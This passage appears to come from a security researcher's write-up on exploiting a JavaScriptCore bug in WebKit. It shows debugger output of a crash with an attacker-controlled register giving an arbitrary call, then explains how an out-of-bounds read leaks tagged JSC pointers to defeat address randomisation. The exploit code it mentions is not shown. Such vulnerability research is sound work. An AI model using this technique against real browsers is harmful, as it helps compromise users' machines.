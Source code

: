 p.s: the upper bits can be controlled as well..<br>

***successfull run should produce:***

<br>

```c
Process 18155 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=EXC_I386_GPFLT)
    frame #0: 0x00000001087bd3a0 JavaScriptCore`JSC::handleHostCall(JSC::ExecState*, JSC::JSValue, JSC::CallLinkInfo*) + 272
JavaScriptCore`JSC::handleHostCall:
->  0x1087bd3a0 <+272>: movq   0x40(%rax), %rax
    0x1087bd3a4 <+276>: leaq   -0x48(%rbp), %rsi
    0x1087bd3a8 <+280>: movq   %rbx, %rdi
    0x1087bd3ab <+283>: callq  *0x30(%rax)
Target 0: (com.apple.WebKit.WebContent) stopped.
(lldb) reg r rax
     rax = 0x2042424242424242
(lldb) 
       
```

So.. at this point we got the ability to call arbitrary an address.<br>
we can't just spray the cache and hope for the best.<br>
lets go back to the begining, where we talked about the infoleak situation:<br>
if we won't gc, then we can access out of bounds memory.<br>
because this structures are large, then they are inlined in the function.
if we would access a different OOB index (by changing the size of the last object that we send the optimized function, 
the trapResult.addunchacked would only add a number of properties up to an index.)
this way the, we can leak memory allocated after the propertynamesbuffer.
if we would call the function with very large objects, then the propertynamearray would end up inlined in the function.<br>
by allocating objects within objects we can align known symbols and pointers after this buffer's end.<br>

![]({{site.baseurl}}/images/s/leakedptr.png)

this leaked pointer (and others) would always take the form of:

```
 0x17ff000107d831c8
 0x17ff000XXXXXXXXX
```

<br>

Where 0xXXXXXXXXX, would be our valid pointer.<br>
those tagged pointers that we can leak, are valid pointers <br>
allocated in JSC memory region.<br>
some of the time its JavaScriptCore'JSC::Symbols::iteratorSymbol<br>
in the following asseambly.<br>

```
->  0x11071c0f0 <+0>:  xorl   $0xf000000, %eax          ; imm = 0xF000000
```
